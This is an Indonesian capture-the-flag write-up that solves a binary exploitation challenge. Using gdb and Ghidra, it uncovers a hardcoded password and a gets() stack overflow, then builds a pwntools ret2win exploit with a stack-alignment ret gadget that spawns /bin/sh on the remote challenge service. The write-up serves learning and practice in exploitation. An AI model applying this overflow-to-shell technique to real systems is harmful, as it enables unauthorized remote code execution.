





## Service Administrator

### Deskripsi

Sebuah service untuk Seorang Administrator [Download](https://mega.nz/file/L3IHkIjA#M8nsuhI2AuMBV8lOdju_OfeCGLJ32szbpzknnWjN6eA)

```
nc 103.147.32.214 9009
```


### Solusi

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

terlihat dari hasil pemeriksaan `NX enabled` artinya non executeable stack, shellcode tidak akan bisa berjalan jika di eksekusi melalui stack, setelah di disassambly dengan gdb ditemukan beberapa fungsi yang dipanggil saat fungsi main dijalankan

```assembly
   0x0000000000401355 <+0>:     endbr64
   0x0000000000401359 <+4>:     push   rbp
   0x000000000040135a <+5>:     mov    rbp,rsp
   0x000000000040135d <+8>:     sub    rsp,0x10
   0x0000000000401361 <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x0000000000401364 <+15>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000401368 <+19>:    mov    eax,0x0
   0x000000000040136d <+24>:    call   0x401216 <init_buffering>
   0x0000000000401372 <+29>:    mov    eax,0x0
   0x0000000000401377 <+34>:    call   0x40129d <init_signal>
   0x000000000040137c <+39>:    mov    eax,0x0
   0x0000000000401381 <+44>:    call   0x4012da <simple_say>
   0x0000000000401386 <+49>:    nop
   0x0000000000401387 <+50>:    leave
   0x0000000000401388 <+51>:    ret
```

tidak ada yang menarik selain fungsi simple_say yang beralamat di `0x4012da`, jika dilihat lihat dalam bentuk dissassamblynya

```assembly
0x00000000004012da <+0>:     endbr64
0x00000000004012de <+4>:     push   rbp
0x00000000004012df <+5>:     mov    rbp,rsp
0x00000000004012e2 <+8>:     sub    rsp,0x100
0x00000000004012e9 <+15>:    lea    rdi,[rip+0xd1c]        # 0x40200c
0x00000000004012f0 <+22>:    call   0x4010c0 <puts@plt>
0x00000000004012f5 <+27>:    lea    rax,[rbp-0x100]
0x00000000004012fc <+34>:    mov    rdi,rax
0x00000000004012ff <+37>:    mov    eax,0x0
0x0000000000401304 <+42>:    call   0x401110 <gets@plt>
0x0000000000401309 <+47>:    lea    rax,[rbp-0x100]
0x0000000000401310 <+54>:    lea    rsi,[rip+0xd0f]        # 0x402026
0x0000000000401317 <+61>:    mov    rdi,rax
0x000000000040131a <+64>:    call   0x4010f0 <strcmp@plt>
0x000000000040131f <+69>:    test   eax,eax
0x0000000000401321 <+71>:    jne    0x40133d <simple_say+99>
0x0000000000401323 <+73>:    lea    rdi,[rip+0xd0f]        # 0x402039
0x000000000040132a <+80>:    call   0x4010c0 <puts@plt>
0x000000000040132f <+85>:    lea    rdi,[rip+0xd13]        # 0x402049
0x0000000000401336 <+92>:    call   0x4010d0 <system@plt>
0x000000000040133b <+97>:    jmp    0x401353 <simple_say+121>
0x000000000040133d <+99>:    lea    rdi,[rip+0xd20]        # 0x402064
0x0000000000401344 <+106>:   call   0x4010c0 <puts@plt>
0x0000000000401349 <+111>:   mov    edi,0x0
0x000000000040134e <+116>:   call   0x4010b0 <_exit@plt>
0x0000000000401353 <+121>:   leave
0x0000000000401354 <+122>:   ret
```

terlihat terjadi pemeriksaan apa yang di inputkan dengan variable yang ada di `0x402026` ini terjadi pada

```assembly
0x0000000000401310 <+54>:    lea    rsi,[rip+0xd0f]        # 0x402026
0x0000000000401317 <+61>:    mov    rdi,rax
0x000000000040131a <+64>:    call   0x4010f0 <strcmp@plt>
```

dimana call `0x4010f0` akan membandingkan antara `rdi` dan `rax` jika dilihat nilai dari `0x402026` adalah

```assembly
pwndbg> x/s 0x402026
0x402026:       "th15_i5_n0t_4_fl4g"
```

bisa diambil kesimpulan jika `th15_i5_n0t_4_fl4g` adalah password yang benar, saat dijalankan hasilnya

```bash
Masukan kata sandi anda:

th15_i5_n0t_4_fl4g
Access Granted

[Attaching after process 2349 vfork to child process 2353]
[New inferior 2 (process 2353)]
[Detaching vfork parent process 2349 after child exec]
[Inferior 1 (process 2349) detached]
process 2353 is executing new program: /usr/bin/dash
```

terlihat jika gdb memanggil `/usr/bin/dash` sebagai proses baru, tetapi tidak mendapatkan flagnya

jika dilihat lebih teliti pada fungsi simple_say terdapat celah buffer overflow pada `call   0x401110 <gets@plt>` karena `gets` tidak mendifinikan besar input yang harus diterima melalui pendifinisian `sub    rsp,0x100`, jika di decompile menggunakan ghidra kira-kira sourcenya seperti berikut.


```c
void simple_say(void)
{
    int32_t iVar1;
    char *s1;
    
    puts("Masukan kata sandi anda:\n");
    gets(&s1);
    iVar1 = strcmp(&s1, "th15_i5_n0t_4_fl4g");
    if (iVar1 == 0) {
        puts("Access Granted\n");
        system("echo \'welcome...\' | figlet");
        return;
    }
    puts("Kata sandi masih salah!\n");
    .plt.sec(0);
}
```

karena buffer overflow seharusnya bisa melakukan Return to pointer, jadi harus mencari pointer mana yang bisa dipanggil ketika fungsi ret dipanggil, tetapi ketika melakukan overflow tidak terjadi segfault karena ketika password salah langsung dibawa ke `call   0x4010b0 <_exit@plt>` hal ini terjadi karena strcmp pada bahasa c akan berhenti memeriksa string ketika menemukan nullbyte atau `0x00` disatu sisi lagi `gets()` akan tetap membaca null byte atau 0x00 tetapi tidak akan membaca new line `0x00`, sederhanya menjadi seperti

```c
gets() stop jika bertemu dengan \n
strcmp() stop jika bertemu dengan \x00
```

jadi untuk membuat aplikasinya overflow harus mengikutsertakan `\x00` setelah password yang benar dan dilanjutkan dengan panjang buffer

```python
from pwn import *

p = process("./chal")
p.recvline()
p.sendline("th15_i5_n0t_4_fl4g\x00" + cyclic(0x100))
p.interactive()
```

jika exploit dijalan kan akan terjadi SIGSEGV

```bash
[+] Starting local process './chal': pid 2400
[*] Switching to interactive mode
Access Granted
[*] Got EOF while reading in interactive
[*] Process './chal' stopped with exit code -11 (SIGSEGV) (pid 2400)
```

artinya terjadi buffer overflow, untuk memastikanya bisa di debug melalui gdb

```python
from pwn import *

p = process("./chal")
p.recvline()

raw_input("attach gdb")

p.sendline("th15_i5_n0t_4_fl4g\x00" + cyclic(0x100))
p.interactive()
```

dan hasilnya adalah



terlihat jika alamat RBP ter-overwrite dengan pattern dari `cyclic(0x100))` dengan nilai `0x6e6361616d636161` dan RSP ter-overwrite dengan nilai `rsp 0x7ffe15f962a8 ◂— 'aacmaacnaac'`

```assembly
0x401354 <simple_say+122>    ret    <0x6e6361616d636161>
```

selanjutnya mencari jumlah buffer yang bisa mereplace `RIP` dan mencoba mereplacenya dengan alamat sementara

```python
padding = "A"*cyclic_find("aacmaacnaa")
RIP = p64(0x4242424242424242) # BBBBBBBB
p.sendline("th15_i5_n0t_4_fl4g\x00" + padding + RIP)
```

jika berhasil, seharusnya `rsp` akan bernilai `BBBBBBBB` dan hasilnya



setelah `rsp` ter-overwrite dengan alamat dummy yaitu `0x4242424242424242` saat nya mencari alamat yang bisa digunakan untuk mendapatkan shell. jika dicermati lagi hasil disassambly pada filenya, selain fungsi main dan simple_say ada fungsi lain dengan nama `sym.run_me_from_main` jika di disassambly

```assembly
pwndbg> x run_me_from_main
0x4012c3 <run_me_from_main>:    0xfa1e0ff3
pwndbg> disass 0x4012c3
Dump of assembler code for function run_me_from_main:
   0x00000000004012c3 <+0>:     endbr64
   0x00000000004012c7 <+4>:     push   rbp
   0x00000000004012c8 <+5>:     mov    rbp,rsp
   0x00000000004012cb <+8>:     lea    rdi,[rip+0xd32]        # 0x402004
   0x00000000004012d2 <+15>:    call   0x4010d0 <system@plt>
   0x00000000004012d7 <+20>:    nop
   0x00000000004012d8 <+21>:    pop    rbp
   0x00000000004012d9 <+22>:    ret
End of assembler dump.
pwndbg>
```

fungsi ini memanggil perintah `system("/bin/sh")` yang ada di `call   0x4010d0 <system@plt>` jika alamat dummy diganti menjadi alamat `0x4012c3` harusnya bisa didapatkan shell.

```python
RIP = p64(0x4012c3)
p.sendline("th15_i5_n0t_4_fl4g\x00" + padding + RIP)
```



ternyata tidak bisa langsung menuju kealamt tersebut, jika diperhatikan pada backtrace

```assembly
0x7f380c7b2fbc <do_system+364>    movaps xmmword ptr [rsp + 0x50], xmm0
...
...
 ► f 0   0x7f380c7b2fbc do_system+364
   f 1         0x4012d7 run_me_from_main+20
```

sudah benar alamat tersebut bisa dipanggil tetapi bukanya membuka shell malah memanggil sesuatu yang lain dan crash pada saat menjalankan `movaps xmmword ptr [rsp + 0x50], xmm0`, ini dikarenakan alamat yang dipanggil `0x4012c3` merupakan alamat yang bersumber dari buffer-overflow sehingga susunan pada memory jadi berantakan, ini disebut juga dengan un-Alligned Address, untuk itu dibutuhkan alamat return yang lain sebelum memanggil alamat `0x4012c3` dengan begitu masalah **un-Alligned Address** atau biasa disebut dengan **ROPChain**,

```bash
objdump -D ./chal | grep ret
40101a:       c3                      retq
401164:       c3                      retq
401190:       c3                      retq
4011d0:       c3                      retq
4011fe:       c3                      retq
401200:       c3                      retq
40127a:       c3                      retq
40129c:       c3                      retq
4012c2:       c3                      retq
4012d9:       c3                      retq
401354:       c3                      retq
401388:       c3                      retq
4013f4:       c3                      retq
401404:       c3                      retq
401414:       c3                      retq
```

ambil salah satu alamat dari hasil tersebut dan tambahkan setelah padding

```python
padding = "A"*cyclic_find("aacmaacnaa")
RIP = p64(0x4012c3)
RET = p64(0x4013f4)
p.sendline("th15_i5_n0t_4_fl4g\x00" + padding + RET +RIP)
```



selanjutnya tinggal mencoba dengan online service 

```python
from pwn import *
p = remote("103.147.32.214", 9009)
p.recvline()
padding = "A"*cyclic_find("aacmaacnaa")
RIP = p64(0x4012c3)
RET = p64(0x4013f4)
p.sendline("th15_i5_n0t_4_fl4g\x00" + padding + RET +RIP)
p.interactive()

```



